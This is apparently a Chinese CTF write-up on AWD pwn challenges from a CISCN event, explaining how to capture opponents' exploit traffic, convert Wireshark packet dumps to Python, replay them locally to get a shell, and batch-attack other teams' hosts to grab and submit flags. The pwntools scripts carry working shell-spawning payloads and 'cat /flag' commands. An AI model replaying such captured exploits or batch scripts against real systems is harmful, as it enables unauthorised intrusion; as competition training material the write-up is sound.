







# awd pwn中流量转发（手动）

### 例1：ciscn某次awd题目 eval

#### 1.从服务器上扒下可执行程序

  一般来讲，pwn的可执行文件在/home/ctf目录下，还是比较好找的，这里out就是我们要的附件，可以直接运行验证。




#### 2.等大佬们的流量

  一般来讲，假如给流量的话也会放在ctf目录下。



  这个是当时在服务器上拉下来的流量，可以通过追踪TCP流来看人家的payload，一般来说流量的最后有这种cat flag的shell命令基本上就是能够成功攻击的流量了。

  一般来讲，假如程序不需要泄露地址，一模一样的流量打过去也是可以成功的。

  wireshark是可以把payload导出为c语言数组形式的。



那我们只需要写个脚本，把C语言的数组转化成python里的数组，然后一模一样发一遍过去就行了。

这里写了个简单的转化脚本

strip.py

```python
a = '''
char peer0_0[] = { /* Packet 28 */
0x31, 0x33, 0x0a };
char peer0_1[] = { /* Packet 30 */
0x30, 0x00, 0x07, 0x00, 0x2f, 0x62, 0x69, 0x6e, 
0x2f, 0x73, 0x68, 0x33, 0x00 };
char peer0_2[] = { /* Packet 31 */
0x65, 0x78, 0x65, 0x63, 0x20, 0x73, 0x68, 0x20, 
0x2d, 0x69, 0x0a };
char peer0_3[] = { /* Packet 32 */
0x74, 0x72, 0x61, 0x70, 0x20, 0x22, 0x22, 0x20, 
0x31, 0x20, 0x32, 0x20, 0x33, 0x20, 0x34, 0x20, 
0x35, 0x20, 0x36, 0x20, 0x37, 0x20, 0x38, 0x20, 
0x39, 0x20, 0x31, 0x34, 0x20, 0x31, 0x35, 0x20, 
0x31, 0x37, 0x0a };
char peer0_4[] = { /* Packet 33 */
0x73, 0x68, 0x0a, 0x65, 0x63, 0x68, 0x6f, 0x20, 
0x61, 0x39, 0x30, 0x61, 0x33, 0x35, 0x35, 0x66, 
0x38, 0x64, 0x64, 0x62, 0x61, 0x36, 0x62, 0x32, 
0x3b, 0x63, 0x61, 0x74, 0x20, 0x2f, 0x66, 0x6c, 
0x61, 0x67, 0x3b, 0x65, 0x63, 0x68, 0x6f, 0x20, 
0x39, 0x64, 0x63, 0x36, 0x31, 0x61, 0x36, 0x65, 
0x37, 0x31, 0x39, 0x35, 0x63, 0x61, 0x39, 0x39, 
0x0a };
char peer0_5[] = { /* Packet 36 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x61, 0x33, 
0x39, 0x36, 0x65, 0x61, 0x31, 0x33, 0x31, 0x63, 
0x34, 0x38, 0x61, 0x32, 0x61, 0x0a };
char peer0_6[] = { /* Packet 39 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x61, 0x39, 0x30, 
0x61, 0x33, 0x35, 0x35, 0x66, 0x38, 0x64, 0x64, 
0x62, 0x61, 0x36, 0x62, 0x32, 0x3b, 0x63, 0x61, 
0x74, 0x20, 0x2f, 0x66, 0x6c, 0x61, 0x67, 0x3b, 
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x64, 0x63, 
0x36, 0x31, 0x61, 0x36, 0x65, 0x37, 0x31, 0x39, 
0x35, 0x63, 0x61, 0x39, 0x39, 0x0a };
char peer0_7[] = { /* Packet 44 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x61, 0x33, 
0x39, 0x36, 0x65, 0x61, 0x31, 0x33, 0x31, 0x63, 
0x34, 0x38, 0x61, 0x32, 0x61, 0x0a };
'''

ss = a.split(';')[:-1]
ct = ''
packets = []
for s in ss:
    tmp = s.strip('\nchar ')
    tmp = tmp.replace('[]','')
    tmp1 = tmp.split('/')
    tmp2 = ''
    for i in range(len(tmp1)):
        if i!=1:
            tmp2+=tmp1[i]
    tmp2 = tmp2.replace('\n','')
    tmp2 = tmp2.replace('{','[')
    tmp2 = tmp2.replace('}', ']')
    tmp2 = tmp2.replace(' ','')
    print tmp2
    c = tmp2.split('[')[1]
    c = c.replace(']','')
    c = c.split(',')
    packet = ''
    for i in c:
        packet += chr(int(i,16))
    packets.append(packet)
for i in range(len(packets)):
    print 'packet'+str(i)+'=====>'+packets[i] ,
```

执行效果




#### 3.本地验证

验证脚本可以直接在strip.py的基础上直接修改

```python
a = '''
char peer0_0[] = { /* Packet 28 */
0x31, 0x33, 0x0a };
char peer0_1[] = { /* Packet 30 */
0x30, 0x00, 0x07, 0x00, 0x2f, 0x62, 0x69, 0x6e, 
0x2f, 0x73, 0x68, 0x33, 0x00 };
char peer0_2[] = { /* Packet 31 */
0x65, 0x78, 0x65, 0x63, 0x20, 0x73, 0x68, 0x20, 
0x2d, 0x69, 0x0a };
char peer0_3[] = { /* Packet 32 */
0x74, 0x72, 0x61, 0x70, 0x20, 0x22, 0x22, 0x20, 
0x31, 0x20, 0x32, 0x20, 0x33, 0x20, 0x34, 0x20, 
0x35, 0x20, 0x36, 0x20, 0x37, 0x20, 0x38, 0x20, 
0x39, 0x20, 0x31, 0x34, 0x20, 0x31, 0x35, 0x20, 
0x31, 0x37, 0x0a };
char peer0_4[] = { /* Packet 33 */
0x73, 0x68, 0x0a, 0x65, 0x63, 0x68, 0x6f, 0x20, 
0x61, 0x39, 0x30, 0x61, 0x33, 0x35, 0x35, 0x66, 
0x38, 0x64, 0x64, 0x62, 0x61, 0x36, 0x62, 0x32, 
0x3b, 0x63, 0x61, 0x74, 0x20, 0x2f, 0x66, 0x6c, 
0x61, 0x67, 0x3b, 0x65, 0x63, 0x68, 0x6f, 0x20, 
0x39, 0x64, 0x63, 0x36, 0x31, 0x61, 0x36, 0x65, 
0x37, 0x31, 0x39, 0x35, 0x63, 0x61, 0x39, 0x39, 
0x0a };
char peer0_5[] = { /* Packet 36 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x61, 0x33, 
0x39, 0x36, 0x65, 0x61, 0x31, 0x33, 0x31, 0x63, 
0x34, 0x38, 0x61, 0x32, 0x61, 0x0a };
char peer0_6[] = { /* Packet 39 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x61, 0x39, 0x30, 
0x61, 0x33, 0x35, 0x35, 0x66, 0x38, 0x64, 0x64, 
0x62, 0x61, 0x36, 0x62, 0x32, 0x3b, 0x63, 0x61, 
0x74, 0x20, 0x2f, 0x66, 0x6c, 0x61, 0x67, 0x3b, 
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x64, 0x63, 
0x36, 0x31, 0x61, 0x36, 0x65, 0x37, 0x31, 0x39, 
0x35, 0x63, 0x61, 0x39, 0x39, 0x0a };
char peer0_7[] = { /* Packet 44 */
0x65, 0x63, 0x68, 0x6f, 0x20, 0x39, 0x61, 0x33, 
0x39, 0x36, 0x65, 0x61, 0x31, 0x33, 0x31, 0x63, 
0x34, 0x38, 0x61, 0x32, 0x61, 0x0a };
'''

ss = a.split(';')[:-1]
ct = ''
packets = []
for s in ss:
    tmp = s.strip('\nchar ')
    tmp = tmp.replace('[]','')
    tmp1 = tmp.split('/')
    tmp2 = ''
    for i in range(len(tmp1)):
        if i!=1:
            tmp2+=tmp1[i]
    tmp2 = tmp2.replace('\n','')
    tmp2 = tmp2.replace('{','[')
    tmp2 = tmp2.replace('}', ']')
    tmp2 = tmp2.replace(' ','')
    print tmp2
    c = tmp2.split('[')[1]
    c = c.replace(']','')
    c = c.split(',')
    packet = ''
    for i in c:
        packet += chr(int(i,16))
    packets.append(packet)
for i in range(len(packets)):
    print 'packet'+str(i)+'=====>'+packets[i] ,


from pwn import*
#context.log_level = 'debug'
p = process('./pwn')
for i in packets:
	p.send(i)
	sleep(0.1)
p.interactive()
```

可以看到，在本地运行脚本已经可以拿到shell了。



假如想要验证远程是否可行，可以先把p = process('./pwn')换成 p = remote('',port)即可验证，第一个参数是ip地址，第二个参数是端口。

假如批量脚本没写出来就只能一个ip一个ip试过去了。

一般来讲context.log_level = 'debug'不用注释，会输出交互的信息。

#### 4.批量脚本

这是当时批量的脚本，假如想要修改的话就把几个send换成本地验证那样发送就行。但有一个比较头疼的问题是是flag接收的问题，拿到shell之后可以采用echo 特定字符，然后recvuntil那些字符，最后再发送一遍cat flag并且recv就可以把它存进变量里并批量提交了

```python
# -*- coding:utf-8 -*-
from pwn import*
import requests
ok = 0
def submit(flag):	
	url = 'http://10.10.10.10/api/v1/att_def/web/submit_flag/?event_id=21'
	data = {'flag':flag,'token':'NEQEKjQAW6YXqW7SSFMaEA8j4W5STUXVE7vuVDbtQmwDT'}
	ct = requests.post(url=url,data=data)
	print ct.content
	if ct.text.find('false')!=-1:
		print 'error!'
	else:
		print 'ok'
		ok += 1

def pr(a,addr):
	log.success(a+'====>'+hex(addr))

def pwn(target):
	p = remote('172.35.%d.15'%target,9999,timeout=2)

	p.sendlineafter('How big is your program: ','12')
	a1 = [
	0x30, 0x00, 0x07, 0x00, 0x2f, 0x62, 0x69, 0x6e,
	0x2f, 0x73, 0x68, 0x33, 0x00 ]
	ct1 = ''
	for i in a1:
		ct1+=chr(i)
	p.send(ct1)

	p.sendline('echo a90a355f8ddba6b2;cat /flag;echo 9dc61a6e7195ca99')
	p.recvline()
	flag = p.recvline()[:-1]
	submit(flag)
	flags.append([target,flag])
	print('flag====>'+flag)
	p.close()

#context.log_level = 'debug'

flags = []
ip = [56]
ip = [x for x in range(1,73)]
for i in ip:
	try:
		pwn(i)
	except:
		print('pwn error!')
for i in flags:
	print str(i[0])+'===>'+i[1]
print len(flags)
print 'ok!!!==>'+str(ok)
```


### 例2：ciscn某次awd题目 cryptopark

#### 选取流量

发了这么多，最后还cat flag，就决定是你了



#### 本地验证

本地验证其实和刚刚一模一样。。只不过把这里a里面内容重新复制一下

```python
a = '''
char peer0_0[] = { /* Packet 679 */
0x35, 0x0a };
char peer0_1[] = { /* Packet 682 */
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x0a };
char peer0_2[] = { /* Packet 685 */
0x31, 0x0a };
char peer0_3[] = { /* Packet 687 */
0x30, 0x0a };
char peer0_4[] = { /* Packet 689 */
0x39, 0x38, 0x35, 0x0a };
char peer0_5[] = { /* Packet 691 */
0x31, 0x30, 0x0a };
char peer0_6[] = { /* Packet 693 */
0x39, 0x38, 0x35, 0x0a };
char peer0_7[] = { /* Packet 695 */
0x31, 0x30, 0x0a };
char peer0_8[] = { /* Packet 697 */
0x31, 0x0a };
char peer0_9[] = { /* Packet 699 */
0x31, 0x0a };
char peer0_10[] = { /* Packet 701 */
0x32, 0x0a };
char peer0_11[] = { /* Packet 704 */
0x31, 0x0a };
char peer0_12[] = { /* Packet 707 */
0x32, 0x0a };
char peer0_13[] = { /* Packet 710 */
0x31, 0x0a };
char peer0_14[] = { /* Packet 713 */
0x31, 0x0a };
char peer0_15[] = { /* Packet 716 */
0x32, 0x0a };
char peer0_16[] = { /* Packet 719 */
0x33, 0x0a };
char peer0_17[] = { /* Packet 722 */
0x32, 0x0a };
char peer0_18[] = { /* Packet 725 */
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 0x61, 
0x36, 0x0a };
char peer0_19[] = { /* Packet 728 */
0x66, 0x6c, 0x61, 0x70, 0x70, 0x79, 0x62, 0x69, 
0x72, 0x64, 0x36, 0x36, 0x36, 0x36, 0x36, 0x36, 
0x0a };
char peer0_20[] = { /* Packet 731 */
0x63, 0x61, 0x74, 0x20, 0x66, 0x6c, 0x61, 0x67, 
0x0a };
'''

ss = a.split(';')[:-1]
ct = ''
packets = []
for s in ss:
    tmp = s.strip('\nchar ')
    tmp = tmp.replace('[]','')
    tmp1 = tmp.split('/')
    tmp2 = ''
    for i in range(len(tmp1)):
        if i!=1:
            tmp2+=tmp1[i]
    tmp2 = tmp2.replace('\n','')
    tmp2 = tmp2.replace('{','[')
    tmp2 = tmp2.replace('}', ']')
    tmp2 = tmp2.replace(' ','')
    print tmp2
    c = tmp2.split('[')[1]
    c = c.replace(']','')
    c = c.split(',')
    packet = ''
    for i in c:
        packet += chr(int(i,16))
    packets.append(packet)
for i in range(len(packets)):
    print 'packet'+str(i)+'=====>'+packets[i] ,


from pwn import*
context.log_level = 'debug'
p = process('./pwn')
for i in packets:
	p.send(i)
	sleep(0.1)
p.interactive()
```

脚本有效



#### 批量脚本

当时写的脚本

```python
# -*- coding:utf-8 -*-
from pwn import*
import requests

def submit(flag):	
	url = 'http://10.10.10.10/api/v1/att_def/web/submit_flag/?event_id=21'
	data = {'flag':flag,'token':'NEQEKjQAW6YXqW7SSFMaEA8j4W5STUXVE7vuVDbtQmwDT'}
	ct = requests.post(url=url,data=data)
	print ct.content
	if ct.text.find('false')!=-1:
		print 'error!'
	else:
		print 'ok'

def pr(a,addr):
	log.success(a+'====>'+hex(addr))

def pwn(target):
	p = remote('172.35.%d.14'%target,9999,timeout=2)
	p.sendline('5')
	p.sendline('a'*0x78)
	p.sendline('1')
	p.sendline('0')

	p.sendline('985')
	p.sendline('10')

	p.sendline('985')
	p.sendline('10')

	p.sendline('1')
	p.sendline('1')
	p.sendline('2')
	p.sendline('1')

	p.sendline('2')
	p.sendline('1')
	p.sendline('1')
	p.sendline('2')

	p.sendline('3')
	p.sendline('2')
	p.sendline('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')

	p.sendline('6')
	p.sendline('flappybird666666')

	p.sendline('echo a90a355f8ddba6b2;cat /flag;echo 9dc61a6e7195ca99')
	p.recvuntil('a90a355f8ddba6b2')
	print '1===>'+p.recvline()
	flag = p.recvline()[:-1]
	print '3===>'+p.recvline()
	print 'flag====>'+flag
	flags.append([target,flag])
	submit(flag)
	p.close()

#context.log_level = 'debug'
flags = []
ip = [x for x in range(1,73)]
#ip = [68]
for i in ip:
	try:
		pwn(i)
	except:
		print('pwn error!')
for i in flags:
	print str(i[0])+'==>'+i[1]
```


### 要点

- 流量最后有一些shell命令的一般是成功利用的
- 假如利用是需要泄露libc信息的，那一模一样打还是大概率失败的
- 步骤总结：选取攻击流量->本地验证->拿自己的靶机远程验证->批量脚本
- 不建议很早就patch，要不然别人攻击流量就不完整了
- 被打了可以立马上ttypatch，毕竟攻击流量我们只需要一个能够成功的就行